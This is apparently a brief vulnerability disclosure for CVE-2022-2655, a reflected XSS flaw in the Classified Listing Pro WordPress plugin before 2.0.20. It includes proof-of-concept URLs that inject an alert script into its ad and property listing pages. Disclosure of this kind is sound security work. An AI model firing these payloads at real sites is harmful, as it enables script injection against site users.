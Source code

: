 ## 😼 CVE-2022-2655

Classified Listing Pro < 2.0.20 - Reflected Cross-Site Scripting

## Description
After creating an ad using the Classified Listing Pro plugin, the ads menu, categories and subcategories become vulnerable to Reflected Cross Site Scripting (XSS)

""To reproduce the failure, it is necessary to create at least one category and one ad""

## Proof of Concept:
https://<TARGET>/all-ads/?"><script>alert(/XSS/)</script>
  
https://<TARGET>/all-properties/?"><script>alert(/XSS/)</script> 
  
  
